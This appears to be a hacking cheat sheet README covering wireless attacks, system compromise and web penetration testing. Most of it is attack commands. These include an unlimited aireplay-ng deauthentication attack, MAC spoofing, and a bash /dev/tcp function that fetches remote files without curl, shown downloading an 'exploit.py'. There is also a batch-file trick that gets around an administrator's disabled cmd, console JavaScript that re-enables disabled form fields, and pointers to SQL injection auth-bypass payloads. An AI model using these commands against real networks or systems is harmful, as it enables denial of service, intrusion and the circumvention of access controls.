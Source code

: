 # Hacking Cheatsheet

> #### Disclaimer
> 
> For Academic and Educational Purposes Only

I am actively developing a comprehensive cheat sheet, regularly adding content that encompasses intricate information, helpful techniques, and fundamental utilities, along with their practical usage, all conveniently consolidated in a single resource

## Table of Contents

- [Networking stuff](#networking-stuff)
  - [Show my wireless card name](#show-my-wireless-card-name)
  - [Put wireless card on monitor mode](#put-wireless-card-on-monitor-mode)
  - [Show routers in range](#show-routers-in-range)
  - [Show devices connected to a specific router](#show-devices-connected-to-a-specific-router)
  - [Create deauth attack](#create-deauth-attack)
  - [Change MAC address](#change-mac-address)
  - [Network list with information](#network-list-with-information)
  - [Host DarkWeb, Secret chat](#host-darkweb-secret-chat)
- [System compromising](#system-compromising)
  - [curl or wget without the function itself](#curl-or-wget-without-the-function-itself)
  - [Get cmd in Windows if not enabled by administrator](#get-cmd-in-windows-if-not-enabled-by-administrator)
- [Web Penetration Testing](#web-penetration-testing)
  - [Basic Steps to Rule the World](#basic-steps-to-rule-the-world)
  - [Scanning the machine](#scanning-the-machine)
  - [Using DirBuster](#using-dirbuster)
  - [Validating a form and a button if it is disabled](#validating-a-form-and-a-button-if-it-is-disabled)
  - [List of vulnerable Unix libraries, to for example get root access](#list-of-vulnerable-unix-libraries-to-for-example-get-root-access)
  - [SQL injection auth bypass](#sql-injection-auth-bypass)


## Networking stuff

### Show my wireless card name
```
iwconfig
```

### Put wireless card on monitor mode
```
airmon-ng start {card name}
```

### Show routers in range
```
airodump-ng {card name}
```
- PWR column is showing signal strenght
- Note also the channel and BSSID of the router

### Change interface channel
```
sudo iwconfig {interface} channel {channel}
```

### Show devices connected to a specific router
```
airodump-ng {card name} --bssid {router BSSID} --channel {router channel}
```
- router is also included there

### Create deauth attack
```
aireplay-ng --deauth 0 -c {devices MAC} -a {routers MAC ADDRESS} {card name}
```
- possibility to include more routers and more MAC adresses
- 0 means infinite number of deauth messages
- TIP of the day: put for example 50 insted of 0 and replay it with 1 second delay

### Change MAC address
```
sudo ifconfig {interface} down
sudo ifconfig {interface} hw ether {MAC address}
sudo ifconfig {interface} up
```

### Network list with information 
```
nmcli device wifi list
```
- Show info about avaiable Wi-Fi networks and its security type

### Host DarkWeb, Secret chat
- use onionshare

## System compromising

### curl or wget without the function itself
```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
 
 
# USAGE: __curl http://www.example.com/exploit.py > sploitz.py
```
### Get cmd in Windows if not enabled by administrator
- Create a file `something.bat` with following content
```
@echo off
:a
Set /p comm=cmd~
%comm%
Goto a
```

## Web Penetration Testing

### Basic Steps to Rule the World

1. Get basic information about the targer, use it as it is
2. Scan the machine, how many ports are open?
3. Find all directiories - DirBuster
4. To be done

### Scanning the machine

```
nmap -sV -O {IP ADDRESS}
```

- This provides information about services version, OS and which ports are in use, all in once

### Using DirBuster

- Used for detecting all folders, even the hidden ones

```
dirbuster dir -u {IP ADDRESS} -l {WORDLIST PATH}
```


### Validating a form and a button if it is disabled

- Console will fix this problem

```
var inputField = document.querySelector('input[type="..."][name="..."]');
if (inputField) {
  inputField.removeAttribute("disabled");
}
```

- Run this for both, button and input field and it will be enabled


### List of vulnerable Unix libraries, to for example get root access

- https://gtfobins.github.io/

### SQL injection auth bypass 

 Check this [list](./files/web_pentesting/sqli_auth_bypass_list.txt).
